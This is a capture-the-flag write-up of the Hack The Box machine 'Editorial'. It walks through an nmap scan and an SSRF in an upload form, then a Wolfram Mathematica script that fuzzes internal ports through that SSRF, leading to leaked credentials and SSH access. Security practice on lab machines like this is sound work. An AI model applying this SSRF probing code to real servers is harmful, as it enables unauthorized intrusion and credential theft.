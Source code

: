 Editorial (https://app.hackthebox.com/machines/608) from Hack The Box is vulnerable by design Linux machine and was part of their Season 5 competition. At the time, I was knee-deep in my OSEP studies, but I still found some time to work on other pentesting skills by trying to solve boxes for this competition. 

Initial enumeration revealed a web server running on port 80 and ssh on port 22.

```bash
Nmap scan report for editorial.htb (10.10.11.20)
Host is up, received user-set (0.095s latency).
Scanned at 2024-06-17 20:58:15 EDT for 98s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0d:ed:b2:9c:e2:53:fb:d4:c8:c1:19:6e:75:80:d8:64 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMApl7gtas1JLYVJ1BwP3Kpc6oXk6sp2JyCHM37ULGN+DRZ4kw2BBqO/yozkui+j1Yma1wnYsxv0oVYhjGeJavM=
|   256 0f:b9:a7:51:0e:00:d5:7b:5b:7c:5f:bf:2b:ed:53:a0 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMXtxiT4ZZTGZX4222Zer7f/kAWwdCWM/rGzRrGVZhYx
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
|_http-title: Editorial Tiempo Arriba
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET
|_http-server-header: nginx/1.18.0 (Ubuntu)
```

I proceed to launch a web browser to review the site. There is a redirect to `hxxp[://]editorial[.]htb `so this doesn't load because editorial.htb doesn't resolve. After adding editorial.htb along with it's IP Address to /etc/hosts, I reload the page and am able to browse it. In short order, I came across the page below and started to test the form. The first field in the Book information form allowed entering a URL so I entered a URL that pointed back to my IP Address of the VPN interface on my Kail VM. I then started a `netcat` listener on port 80 on my VM.

![Editorial Upload Page][Images/UWLPT/01-ssrf.png]

After a couple of false starts, I was able to determine that I needed to select "Prieview" to receive a connection back. I was using BurpSuite to allow me to easily change the request for testing. Forwarding the Request along results in a response that directs to a JPEG image file.


![Netcat listener connection along with BurpSuite Request and Response](Images/UWLPT/02-ssrf-confirmed.png)

Based on the response, it seems we're looking at an Server-Side Request Forgery (SSRF) after making a request to localhost (aka 127.0.0.1) and it points to the same JPEG file.


![Probing localhost](Images/UWLPT/04-localhost.png)

My next thought was to try and figure out if another web server or even service was running locally. To test this theory, I would need to test all 65535 possible TCP ports that could be open internally. Testing all these ports isn't difficult, but automating the testing requires taking the request and fuzzing possible ports `http://127.0.0.1:FUZZ` and then reviewing the response. This can be done using `ffuf` or other fuzzing tool, but I decided that I'd try using `Wolfram Mathematica` for no other reason that I wanted to try.

I started with the basic text of the request from Burp Suite and convert the request to a function template so I could insert port numbers easily. I'm no pro Wolfram Language coder, so keep this in mind because my solution probably isn't near optimal, but it worked. The code to make the requests is below. The code works by providing a port number and if the response doesn't contain the string `/static/images/`, the port and response Body are printed; otherwise, just print the port. The only reason I printed the port if `/static/images/` was matched was to verify my code worked.

```mathematica
makeRequests[port_]:=Module[{boundary,bt,request,response},
boundary="---------------------------452647181736560613536731952";
bt=StringTemplate["
-----------------------------452647181736560613536731952
Content-Disposition: form-data; name=\"bookurl\"

http://127.0.0.1:``
-----------------------------452647181736560613536731952
Content-Disposition: form-data; name=\"bookfile\"; filename=\"\"
Content-Type: application/octet-stream


-----------------------------452647181736560613536731952--
"][port];
request=HTTPRequest["http://editorial.htb/upload-cover",<|"Method"->"POST","Headers"->{"Host"->"editorial.htb","User-Agent"->"Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0","Accept"->"*/*","Accept-Language"->"en-US,en;q=0.5","Accept-Encoding"->"gzip, deflate, br","Content-Type"->"multipart/form-data; boundary="<>boundary,"Content-Length"->ToString[StringLength[bt]],"Origin"->"http://editorial.htb","Referer"->"http://editorial.htb/upload"},"Body"->bt|>];
response=URLRead[request];
If[!StringContainsQ[response["Body"],"/static/images/"],Print[<|port->response["Body"]|>],Print[port]]
]
```

I didn't want to run over all +65k ports so I started with a list of commonly using web ports.

```mathematica
popularWebserverPorts={"80","443","8080","8443","8000","8888","8081","8444","3000","9000","5000","8082","9090","8880"};
```

Execute our code and see what happens.

```mathematica
makeRequests[#]&/@popularWebserverPorts
```

On port 5000, there is a URL fragment which doesn't point to a JPEG.

![](Images/UWLPT/12-wl-popular-web-service-ports.png)

Fortunately, one can "see" the contents of these links through the main website. I had tested the JPEG file earlier in the browser. We can make a request for this file.

```mathematica
URLRead[HTTPRequest["http://editorial.htb/static/uploads/4fceb143-596a-4068-999c-b3ff4003f166"]]
```

This request returns a JSON respose. 

![JSON Response Text](Images/UWLPT/14-wl-json.png)

Let's retrieve all the endpoints, and as one can see below, login credentials are retrieved.

![Credentials for dev](Images/UWLPT/15-wl-found-password.png)

I was able to use the credentials to get a shell on the machine using ssh impersonating dev. While enumerating and finding the initial exploit didn't use standard hacker tools, I did find devising an alternative exploit tool using Wolfram Mathematica satisfying. 
